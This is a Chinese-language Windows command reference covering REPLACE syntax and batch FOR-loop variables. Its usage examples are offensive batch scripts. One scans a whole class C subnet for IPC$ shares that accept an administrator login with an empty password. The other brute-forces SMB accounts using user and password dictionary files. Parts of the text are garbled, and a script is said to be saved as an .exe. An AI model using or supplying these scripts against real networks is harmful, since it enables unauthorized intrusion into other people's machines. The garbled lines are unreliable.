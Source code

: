 

格式
REPLACE [drive1:][path1]filename [drive2:][path2] [/A] [/P] [/R] [/W]
REPLACE [drive1:][path1]filename [drive2:][path2] [/P] [/R] [/S] [/W]

[drive1:][path1]filename 指定源文件。
[drive2:][path2] 指定要替换文件的
目录。
/A 把新文件加入目标目录。不能和
/S 或 /U 命令行开关搭配使用。
/P 替换文件或加入源文件之前会先提示您
进行确认。
/R 替换只读文件以及未受保护的
文件。
/S 替换目标目录中所有子目录的文件。
不能与 /A 命令选项
搭配使用。
/W 等您插入磁盘以后再运行。
/U 只会替换或更新比源文件日期早的文件。
不能与 /A 命令行开关搭配使用。






 

附：批处理命令与变量  

1：for命令及变量 基本格式：  
FOR /参数 %variable IN (set) DO command [command_parameters] %variable:指定一个单一字母可替换的参数，如：%i ，而指定一个变量则用：%%i ，而调用变量时用：%i% ，变量是区分大小写的（%i 不等于 %I）。  
批处理每次能处理的变量从%0—%9共10个，其中%0默认给批处理文件名使用，%1默认为使用此批处理时输入的的第一个值，同理：%2—%9指输入的第2-9个值；例：net use $">\\ip\ipc$Content$nbsp;pass /user:user 中ip为%1,pass为%2 ,user为%3  

(set):指定一个或一组文件，可使用通配符，如：(D:\user.txt)和(1 1 254)(1 -1 254),{“(1 1 254)”第一个"1"指起始值，第二个"1"指增长量，第三个"254"指结束值，即：从1到254；“(1 -1 254)”说明：即从254到1}  

command：指定对第个文件执行的命令，如：net use命令；如要执行多个命令时，命令这间加：& 来隔开  
command_parameters：为特定命令指定参数或命令行开关  

IN (set)：指在(set)中取值；DO command ：指执行command  

参数：/L 指用增量形式{(set)为增量形式时}；/F 指从文件中不断取值，直到取完为止{(set)为文件时，如(d:\pass.txt)时}。  
用法举例：  
@echo off  
echo 用法格式：test.bat *.*.* > test.txt  

for /L %%G in (1 1 254) do echo %1.%%G >>test.txt & net use \\%1.%%G /user:administrator | find "命令成功完成" >>test.txt  
存为test.bat 说明：对指定的一个C类网段的254个IP依次试建立administrator密码为空的IPC$连接，如果成功就把该IP存在test.txt中。  

/L指用增量形式（即从1-254或254-1）；输入的IP前面三位：*.*.*为批处理默认的 %1；%%G 为变量(ip的最后一位）；& 用来隔开echo 和net use 这二个命令；| 指建立了ipc$后，在结果中用find查看是否有"命令成功完成"信息；%1.%%G 为完整的IP地址；(1 1 254) 指起始值，增长量，结止值。  
@echo off  
echo 用法格式：ok.bat ip  
FOR /F %%i IN (D:\user.dic) DO smb.exe %1 %%i D:\pass.dic 200  
存为：ok.exe 说明：输入一个IP后，用字典文件d:\pass.dic来暴解d:\user.dic中的用户密码，直到文件中值取完为止。%%i为用户名；%1为输入的IP地址（默认）。






